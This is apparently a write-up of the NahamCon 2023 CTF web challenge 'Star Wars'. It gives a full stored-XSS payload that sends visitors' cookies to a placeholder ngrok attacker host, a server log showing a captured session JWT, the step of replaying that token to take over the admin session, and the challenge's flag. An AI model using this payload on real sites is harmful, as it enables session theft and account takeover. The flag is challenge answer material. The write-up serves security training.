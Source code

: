 ```yaml
---
CTF: Nahamcon 2023
Challenge Name: Star Wars
Category: Web
Date: 15/06/23
Author: congon4tor
Points: 50
Solves: 329
---
```

[![Nahamcon CTF 2023: Star Wars (Web)](https://img.youtube.com/vi/XHg_sBD0-es/0.jpg)](https://www.youtube.com/watch?v=XHg_sBD0-es?t=18 "Nahamcon CTF 2023: Star Wars (Web)")

### Description
>If you love Star Wars as much as I do you need to check out this blog!

## Solution
Can't create an account or sign up as admin.

Register as `cat` and find a guestbook, provide XSS payload to steal cookie.
```html
<script>new Image().src='http://ATTACKER_SERVER.ngrok-free.app?c='+document.cookie</script>
```

Request is made to our server containing cookies, including a [JWT](https://youtu.be/GIq3naOLrTg)
```bash
127.0.0.1 - - [15/Jun/2023 23:09:24] "GET /?c=ss_cvr=3ad69c49-d9aa-4fb0-b6f1-5c38324adf3b|1686862282337|1686862282337|1686862282337|1;%20x-wing=eyJfcGVybWFuZW50Ijp0cnVlLCJpZCI6MX0.ZIuMEw.0OSvB-AGOciNuH-n824cnC9uTFE HTTP/1.1" 200 -
```

We replace the session cookie with `eyJfcGVybWFuZW50Ijp0cnVlLCJpZCI6MX0.ZIuMEw.0OSvB-AGOciNuH-n824cnC9uTFE` and receive a flag!
```txt
flag{a538c88890d45a382e44dfd00296a99b}
```